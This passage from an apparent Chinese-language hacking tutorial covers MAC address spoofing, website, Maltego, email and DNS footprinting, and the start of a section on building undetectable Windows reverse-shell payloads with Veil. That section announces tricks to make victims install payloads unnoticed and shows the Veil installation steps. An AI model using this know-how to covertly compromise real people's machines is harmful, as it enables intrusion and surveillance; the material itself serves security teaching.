

在这里，你可以看到我高亮了两个词——第一个是 eth0，另一个是 WLAN。Eth0 代表以太网（有线网络），WLAN 代表无线局域网。

- 3. 如果你使用有线网络，输入 `macchanger -s eth0` 来查看当前 MAC 地址。对于使用局域网的人，输入 `macchanger -s wlan0` 来查看 MAC 地址。



如你所见，我们有两个 MAC 地址。第一个是当前 MAC 地址，第二个是永久 MAC 地址。当前 MAC 地址是我们当前网络的地址，可以被更改；但永久 MAC 地址无法被更改。这是因为它不是我正在使用的网络的 MAC 地址，而是我所用计算机上网络接口卡（网卡）的地址。

此外，你可以看到我高亮了前三位数字。这三位数字是有含义的，它们用于识别网卡的制造商。

#### MAC 地址在网络中如何被使用？

如果系统管理员想要识别某个特定设备，他们可以使用 MAC 地址来查找该设备的名称。因此，当人们想要在网络中识别特定设备时，MAC 地址通常非常重要。除此之外，让我们按照以下步骤尝试更改 MAC 地址。

- 1. 打开终端并输入 `macchanger -a eth0`。



如你所见，我们的 MAC 地址已经更改，你可以通过输入 `macchanger -s eth0` 来验证。




## 信息收集


### 什么是信息收集？

信息收集（Information Gathering）也被称为足迹分析（footprinting）。它是利用各种工具从给定设备中收集信息的艺术。对于所有类型的黑客来说，足迹分析是黑客攻击的第一阶段，也是最关键的阶段。如果没有这一步，黑客无法进行任何攻击。

### 足迹分析的类型

足迹分析基本上分为两种类型，即：

- 1. 被动足迹分析（Passive footprinting）
- 2. 主动足迹分析（Active footprinting）

### 被动足迹分析

在被动足迹分析中，黑客在对目标有所了解的情况下收集信息。换句话说，我们可以说在被动足迹分析中，黑客已经知道他们的目标是谁。他们通过镜像网站、电子邮件跟踪等方式收集信息。

### 主动足迹分析

在主动足迹分析中，黑客在对目标一无所知的情况下收集信息。换句话说，我们可以说主动足迹分析的核心就是尝试在没有任何预先信息的情况下攻击目标。黑客可以从 Google、IP 地址查询、DNS 查询等渠道收集所需信息。

## 被动足迹分析

### 网站足迹分析

白帽黑客使用各种技术来识别系统中的弱点，以便采取必要的预防措施来创建更安全的环境。其中许多是被动的、合法的且常用的工具，通过这些工具，网站可以在不入侵系统的情况下轻松提供组织信息。

#### 什么是网站足迹分析？

网站足迹分析是一种用于从特定网站发现组织信息的技术。深入了解组织的结构和系统可以为潜在目标提供有价值的见解。可以获取的常见信息包括以下内容：

- 域名
- IP 地址
- 命名空间
- 员工信息
- 电话号码
- 电子邮件
- 职位信息

诸如 Whois ([https://www.whois.com/whois](https://www.whois.com/whois)) 或 IP2Location ([https://www.ip2location.com/](https://www.ip2location.com/)) 等网站很容易访问，并为进一步的足迹分析提供了起点。这些是黑客获取信息的坚实起点，可以作为进一步分析和潜在攻击的基础。

命令行工具（如 `ping`）简单易用，几乎不需要编程或脚本编写技能。当人们想要检查信息的有效性并确定设备是否在线时，可以使用 `ping` 一个 IP 地址。`tracert` 命令可以允许个人查看请求的路由、信息的转发方式以及转发到的设备。

#### 网站足迹分析有什么用？

网站足迹分析在许多方面都很有用。希望入侵组织系统和网站的人可以通过这些实践获得很多东西。这种信息收集可以为可能的攻击目标（无论是技术手段还是社会工程学）提供基准。另一方面，经过认证的道德黑客可以与组织合作，改进防御攻击的技术。

识别弱点是创建有效防御攻击的开始。通过有效的网站足迹分析，组织可以更好地保护自己免受黑客攻击，并建立更安全、更稳健的信息系统。

#### 网站足迹分析实践

在这个实践环节中，你将学习如何通过简单地输入域名从目标网站收集信息，我们还将学习如何使用 `httrack` 镜像网站以进行漏洞分析。

#### 从域名收集信息

有许多网站只需输入域名即可提供网站的详细信息，让我们来识别几个：

- 1. [https://website.informer.com/](https://website.informer.com/)


这个网站只需输入域名，就会显示任何网站的完整信息，如电子邮件、IP 地址、DNS、托管公司等。

假设我们要获取 google.com 的信息。只需在搜索栏中输入 `www.google.com` 并点击“search”按钮。


| 指标 | 数值 |
|--------|-------|
| 日访问量 | 873 061 288 |
| 日页面浏览量 | 9 411 600 687 |
| Alexa 排名 | 1 |

| 字段 | 信息 |
|-------|-------------|
| 创建日期 | 1997-09-15 |
| 到期日期 | 2020-09-14 |
| 所有者 | Google LLC |
| 托管公司 | Google LLC |
| 注册商 | MarkMonitor Inc. |
| IP 地址 | 216.58.194.100 |
| 子域名 | mail.google.com, docs.google.com, accounts.google.com, drive.google.com, translate.google.com, analytics.google.com, calendar.google.com, support.google.com, myaccount.google.com, news.google.com |
| DNS | ns1.google.com, ns2.google.com, ns3.google.com, ns4.google.com |
| 电子邮件 | 查看所有者及关联电子邮件 |

在这里，你可以看到你获得了关于 google.com 的完整信息，如日访问量、Alexa 排名、域名创建日期、域名到期日期等。我们还可以向下滚动查看更多信息：

```
Domain Name: google.com
Registry Domain ID: 2138514_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2018-02-21T10:45:07-0800
Creation Date: 1997-09-15T00:00:00-0700
Registrar Registration Expiration Date: 2020-09-13T21:00:00-0700
Registrar: MarkMonitor, Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2083959740
Domain Status: clientUpdateProhibited (https://www.icann.org/epp#clientUpdateProhibited)
Domain Status: clientTransferProhibited (https://www.icann.org/epp#clientTransferProhibited)
Domain Status: clientDeleteProhibited (https://www.icann.org/epp#clientDeleteProhibited)
Domain Status: serverUpdateProhibited (https://www.icann.org/epp#serverUpdateProhibited)
Domain Status: serverTransferProhibited (https://www.icann.org/epp#serverTransferProhibited)
Domain Status: serverDeleteProhibited (https://www.icann.org/epp#serverDeleteProhibited)
Registrant Organization: Google LLC
Registrant State/Province: CA
Registrant Country: US
```

#### IP Whois

| 字段 | 数值 |
|-------|-------|
| 网络范围 | 216.58.192.0 - 216.58.223.255 |
| CIDR | 216.58.192.0/19 |
| 网络名称 | GOOGLE |
| 网络句柄 | NET-216-58-192-0-1 |
| 父级 | NET216 (NET-216-0-0-0-0) |
| 网络类型 | 直接分配 |
| 起源 AS | AS15169 |
| 组织 | Google LLC (GOGL) |
| 注册日期 | 2012-01-27 |
| 更新日期 | 2012-01-27 |
| 参考链接 | https://rdap.arin.net/registry/ip/216.58.192.0 |
| 组织名称 | Google LLC |
| 组织 ID | GOGL |
| 地址 | 1600 Amphitheatre Parkway |
| 城市 | Mountain View |
| 州/省 | CA |
| 邮编 | 94043 |
| 国家 | US |
| 注册日期 | 2000-03-30 |

- 2. [https://web.archive.org](https://web.archive.org)



Wayback Machine (Web.Archive.org) 是一个以快照形式显示任何网站完整变更历史的网站。你只需要在搜索栏中输入域名即可。

假设我想查看 youtube.com 的变更历史。在这种情况下，我只需要在搜索栏中输入 `www.youtube.com` 并按下“Enter”键，如下图所示。



在这里，你可以看到从 1996 年到 2019 年快照变更的图表。要查看特定年份的完整变更，只需点击“年份”图表即可。

例如，如果我想查看 2009 年的变更历史，那么我会点击 2009 年的图表，结果如下所示。


在日历中，你可以看到一些蓝色圆圈，这意味着 YouTube 在给定日期进行了一些更改。要查看这些更改，只需将光标移动到该日期上。

一旦你将光标指向任何日期，你将看到该日期的变更列表。只需点击任何时间，你将获得 YouTube 在该特定日期所做更改的快照，如下图所示：


# 2009年2月3日

7 个快照（总计：11）

- 02:24:13
- 14:24:20
- 15:01:49
- 17:27:29
- 20:22:57
- 21:42:41
- 22:05:19


通过给出的结果，你可以看到 2009 年 2 月 3 日下午 2:24 时 YouTube 的样子。

## 使用 Maltego 进行足迹分析 (Footprinting)

### 什么是 Maltego？

Maltego 是一款旨在与 Kali Linux 配合使用的工具。它能帮助黑客和渗透测试人员进行信息收集。该应用程序有两个版本——第一个是免费版，第二个是付费版。如果你使用免费版，你可以获得该应用的基本功能；但如果你订阅付费版，你将能够使用该应用的特殊功能。我们将使用具有基本功能的免费版本。

### Maltego 如何工作？

Maltego 是一个用于被动信息收集的工具。它只能收集公开可用的信息，例如组织名称、服务器 IP 等。

### 实操环节

1. 导航至应用程序栏，在信息收集（information gathering）部分，你应该能找到 Maltego 工具。



首次使用时，系统会要求你注册，因此请创建一个账户，然后使用你的电子邮件和密码登录。


Maltego 充当一个转换中心（transform hub），在这里你可以更新转换项、刷新它们以及添加你自己的转换项。默认情况下，免费版中包含的项显示为浅灰色，而深灰色的项仅在付费版本中可用。

每个转换项在你能收集的信息类型方面为你提供额外的功能。你可以通过点击“details（详情）”选项来查看该转换项的功能。



Maltego 的图形用户界面非常用户友好。要开始使用，只需点击屏幕左上方的矩形图标。



等待几秒钟，它将启动。


欢迎来到 Maltego！免费版本的白色屏幕底部有一个水印，告知你该工具仅用于演示目的。这不需要担心。

添加目标后，你可以在左侧查看它们，如下面的截图所示。


- **最近使用 (Recently Used)**
  - **Domain (域名)**：一个互联网域名
- **基础设施 (Infrastructure)**
  - **AS**：一个互联网自治系统 (AS)
  - **Banner (横幅)**
  - **DNS Name (DNS 名称)**：域名系统服务器名称
  - **Domain (域名)**：一个互联网域名
  - **IPv4 Address (IPv4 地址)**：一个 IPv4 地址
  - **MX Record (MX 记录)**：一个 DNS 邮件交换记录
  - **NS Record (NS 记录)**：一个 DNS 名称服务器记录
  - **Netblock (网络块)**：一组 IPv4 地址范围
  - **URI**：一个互联网统一资源定位符 (URL)
  - **Tracking Code (追踪代码)**：代表一个网页的追踪代码
  - **Website (网站)**：一个互联网网站
  - **Shodan ICS IPv4 Address**：Shodan ICS IP 地址
- **位置 (Locations)**
  - **Airport (机场)**：用于……的跑道和建筑物综合体
  - **Church (教堂)**：礼拜场所
  - **Circular Area (圆形区域)**：地球上某个地方的圆形区域
  - **City (城市)**

我们将从域名开始，只需将域名拖到工作屏幕上。


默认情况下，这里列出的站点是 paterva.com，这是一个属于设计并拥有 Maltego 的公司的站点。

在截图的左侧，我画了两个不同颜色的矩形。在第一个矩形中，有一个可以用鼠标移动的圆圈。第二个矩形用于查看详细信息，你可以在这里更改你的目标。


我要更改域名，因为在继续操作之前我必须在法律上保护自己。鉴于这些信息是公开可用的，我不会与我不个人拥有的域名进行交互。

通过点击第三个矩形中的域名来更改域名。


例如，假设我们被 Maltego 拦截（使用 "maltego.000webhostapp.com"），无法对其网站执行渗透测试。我们可以运行转换工具进行足迹分析和渗透测试。你只需要右键点击网页图标即可查看转换项（transforms）。


#### 运行转换项 (Run Transform(s))

- All Transforms (所有转换)
- PATERVA CTAS CE
- Shodan
- Farsight DNSDB
- Have I been Pwned?

在这里，你可以看到有四个类别的转换，分别是 patervactasce, shodan, farsight DNSDB 和 have i been pwned? 我们将点击 "all transform" 来查看所有选项。

请记住，你不必在目标上运行所有扫描。你可以根据需求运行某个转换项，它会系统地为你提供信息。


例如，如果我想做的第一件事是对我们的目标进行快速查询，那么我会向下滚动并点击 "To website [quick lookup]"。


从上面的信息可以看出，转换已完成，底部有扫描的输出结果。假设我们想查看目标站点的顶级域名。我们可以通过右键点击蓝色网页图标并找到 "To domain [Find other TLDs]"，然后点击它。TLD 代表顶级域名（Top Level Domain）。


Run Transform 可用选项：
- To DNS Name [Robtex] (至 DNS 名称 [Robtex])
- To DNS Name [Using Name Schema diction...] (至 DNS 名称 [使用名称架构字典...])
- To DNS Names [Via Shodan] (至 DNS 名称 [通过 Shodan])
- To DNS Names SSL [Via Shodan] (至 DNS 名称 SSL [通过 Shodan])
- To Domain [Find other TLDs] (至域名 [寻找其他 TLD])
- To Domains [DNS] (至域名 [DNS])
- To Email address [From whois info] (至电子邮件地址 [来自 whois 信息])
- To Email addresses [PGP] (至电子邮件地址 [PGP])
- To Email addresses [Using Search Engine] (至电子邮件地址 [使用搜索引擎])
- To Emails @domain [Using Search Engine] (至 @域名 电子邮件 [使用搜索引擎])
- To Entities from WHOIS [IBM Watson] (至 WHOIS 实体 [IBM Watson])
- To Files [Interesting] [Using Search Engine] (至文件 [有趣] [使用搜索引擎])
- To Files [Office] [Using Search Engine] (至文件 [办公] [使用搜索引擎])

```
Running Transform To Website (Quick lookup) on 1 entities (from entity "maltego.000webhostapp.com")
Transform To Website (Quick lookup) returned with 1 entities (from entity "maltego.000webhostapp.com")
Transform To Website (Quick lookup) done (from entity "maltego.000webhostapp.com")
```

Maltego 速度非常快，因此完成基本扫描只需几秒钟。


从上面的截图可以看出，扫描已完成，我们得到了目标网站的两个顶级域名。这意味着该公司有两个子域名。

例如，如果我扫描的是 [www.hack.com](http://www.hack.com)，那么子域名或顶级域名可能是 hack.in, hack.me 等。然而，Maltego 仅显示属于 hack.com 且当前处于活动状态的顶级域名。

现在我们得到了子域名，如果我们想查看这些站点的 IP 地址，可以通过右键点击然后选择 "To IP address [DNS]" 来实现。


等待几秒钟后，你应该能得到结果。


结果应显示目标的 IP 地址，如上面的截图所示。我们现在可以通过仅执行基本扫描来开始与目标进行主动交互。不过，如果你有权限，可以专注于高级扫描。让我们继续查找与此 IP 相关的电子邮件地址。为此，你需要将光标指向该 IP 并右键点击，然后选择 "to email [from whois.info]"。


按照上述步骤操作后，你应该能够查看与该 IP 地址关联的电子邮件地址。


使用 Maltego 查找电子邮件地址并执行其他几项操作绝非难事。

## 主动足迹分析 (Active Footprinting)

### 电子邮件足迹分析

通过足迹分析获得的信息可被希望获取组织数据访问权限的黑客使用，也可被组织用于解决弱点和安全漏洞。个人使用电子邮件足迹分析来了解更多关于组织的网络和用户信息。

对电子邮件的研究可以揭示有价值且可操作的信息，包括：

- 发件人电子邮件地址
- 发件人姓名
- 可能的物理位置
- 电子邮件路径
- 发件人 IP 地址
- 开放端口

### 什么是电子邮件足迹分析，它有什么用？

电子邮件足迹分析采用了两种常用方法。追踪电子邮件（Tracing email）是用于确定电子邮件来源的过程。研究路径可以帮助想要搜集个人、组织和联系信息的人。通过分析电子邮件标头，可以了解有关邮件服务器、内部 IP 寻址方案以及可能的网络架构的信息。基本标头信息包含常见元素，如发件人（from）、收件人（to）、主题（subject）和日期（date）信息。更深入的分析可以揭示所有邮件传输代理（MTA）的时间戳，其中包含协助传输电子邮件的服务器的路由信息。

所有这些信息汇总在一起，可以让攻击者针对个人进行社会工程学攻击，或者针对可能陈旧且充满安全漏洞的组织网络。

除了追踪电子邮件，黑客还可以发送电子邮件并对其进行跟踪。通过电子邮件跟踪，可以获取有关电子邮件地址以及某人何时接收并打开电子邮件的信息。利用发送响应回执的技术，黑客可以得知电子邮件已被接收和打开。随后，他们可以借助跟踪手段来了解路由和路径。

了解电子邮件如何路由以及包含什么信息，对于黑客和组织来说都非常有价值。获得更深入的网络图景可以让黑客选择更脆弱、安全性较低的目标。组织则可以学习如何最大限度地减少通过足迹分析可能被泄露的信息，从而采取措施更好地保护网络和数据。

### 通过电子邮件足迹分析我们可以获得哪些信息？

- 阅读日期和时间
- 地点
- 天气
- IP 地址
- 系统信息
- ISP（互联网服务提供商）
- 代理 IP

### 实践环节：

在本次实践环节中，您将学习如何仅通过发送电子邮件来收集受害者的信息。请按照以下步骤执行电子邮件足迹分析。

## DNS 枚举

### 什么是 DNS？

DNS 是域名系统（Domain Name System）的缩写。您可以将 DNS 视为互联网电话簿。当我们访问互联网上的内容时，是通过域名来访问的。域名就是像 NBC.com 或 nytimes.com 这样的网页地址。

在尝试在线访问信息时，浏览器使用 IP 地址进行交互。DNS 将域名转换为 IP 地址，以便浏览器能够加载它们。

如果 DNS 服务器不存在，我们将不得不记住互联网上我们要查找的每个东西的 IP 地址。在 Web 浏览器中，DNS 查询在没有任何人为交互或认知的情况下发生——这是一个自动化过程。

### 实践环节

在开始实践环节之前，让我们先了解一下我们将使用的一些缩写含义：

- DNS 集成工具 (Dnsstuff.com, Network-tool.com)
- MX - 指向域名的邮件服务器
- QNS - 指向主机名服务器
- QNAME - 正规名称，允许为主机设置别名
- QSOA - 表示域名的权限记录
- QSRV - 服务记录
- QPTR - 将 IP 地址映射到主机名

在理解上述信息后，让我们开始实践环节。请遵循以下步骤：

打开浏览器并访问 https://tools.dnsstuff.com/。


有很多选项可以用来收集关于目标的信息，让我们尝试其中的一些：

#### 1. DNS 报告 (DNS reports)


使用此工具，我们可以识别目标 DNS 系统上的问题。


#### 2. DNS 查询 (DNS lookup)


此工具将从各个国家访问目标网站。在连接到 VPN 时，此信息至关重要。只需输入域名并按回车键即可。


#### 3. 反向 DNS 查询 (Reverse DNS lookup)

为您中型企业管理更多终端客户和设备的具体策略——使用


还在使用电子表格管理您的 IP 地址？获取 SolarWinds 的免费 IP 地址追踪器进行扫描和跟踪。

使用此工具，您可以从一个 IP 地址查找 DNS 记录。您唯一需要做的是输入公网 IP 并点击“Enter”。

这里有大量的工具，我们无法一一讨论，因此请考虑访问该网站，在工具标题下方，您会看到关于每个工具功能的简短描述。


### 获取访问权限 (Gaining Access)


#### 使用 Veil 进行 Windows 攻击

我们讨论的这一部分旨在使用 Metasploit 和 Veil 创建一个完全不可检测的有效载荷（payload）。后者还能实现其他功能。尽管如此，我们仅重点讨论针对 Android 和 Windows 的不可检测有效载荷。

#### Windows 有效载荷

我们将生成一个反向 TCP 有效载荷，它允许我们从远程位置攻击任何操作系统。同时，我们还将研究一些巧妙的技巧，使我们能够诱导受害者在不被察觉的情况下安装应用程序。

为了实现这一目标，我们将使用一个名为 "Veil" 的工具。随后，我们将使用它来生成不可检测的有效载荷。您可以在 GitHub 上找到此工具。请按照给定的步骤在您的机器上下载并安装该工具。

1. 打开浏览器，在您喜欢的任何搜索引擎中搜索 "Veil GitHub"。我个人倾向于使用 DuckDuckGo。


2. 点击第一个链接，然后复制下载链接。


3. 定位到您想要放置下载文件的目录。通过输入 "sudo su" 来更改用户 root 权限。对我来说，我将使用我的桌面目录。

```bash
anon@kali:~$ cd Desktop
anon@kali:~/Desktop$ sudo su
[sudo] password for anon:
root@kali:/home/anon/Desktop#
```

之后，输入以下命令进行下载。

```bash
git clone https://github.com/Veil-Framework/Veil.git
```

```bash
root@kali:/home/anon/Desktop# git clone https://github.com/Veil-Framework/Veil.git
Cloning into 'Veil'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (36/36), done.
remote: Total 2194 (delta 12), reused 16 (delta 4), pack-reused 2154
Receiving objects: 100% (2194/2194), 705.14 KiB | 936.00 KiB/s, done.
Resolving deltas: 100% (1236/1236), done.
root@kali:/home/anon/Desktop#
```

上述命令用于从 GitHub 网站下载文件。要执行 Veil，必须集成许多工具和数据包。为此，首先必须安装依赖项。

具体操作是，进入 **Veil/config/** 然后运行 **setup.sh** 文件。输入 **"./setup.sh"** 来实现。在运行此命令之前，请确保您已完全更新和升级系统。通过输入 **"apt-get update & apt-get upgrade"** 来执行此操作。设置所有必要的依赖项和软件大约需要一小时。

```bash
root@kali:/home/anon/Desktop/Veil/config# bash setup.sh
```

```text
Veil (Setup Script) | [Updated]: 2018-05-08
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework

os = kali
osversion = 2020.3
osmajversion = 2020
arch = x86_64
trueuser = anon
userprimarygroup = anon
userhomedir = /home/anon–
rootdir = /home/anon/Desktop/Veil
veildir = /var/lib/veil
outputdir = /var/lib/veil/output
dependenciesdir = /var/lib/veil/setup-dependencies
winedir = /var/lib/veil/wine
winedrive = /var/lib/veil/wine/drive_
gempath = Z:\var\lib\veil\wine\drive_c\Ruby187\bin\gem

[I] Kali Linux 2020.3 x86_64 detected...
[?] Are you sure you wish to install Veil?
Continue with installation? ([y]es/[s]ilent/[N]o): yes
```

8. 安装完成后，您可能需要进入 Veil 目录并运行 Veil.py。您可以通过输入 “./Veil.py” 来执行。

```bash
root@kali:/home/anon/Desktop/Veil# ./Veil.py
```

```text
Veil | [Version]: 3.1.14
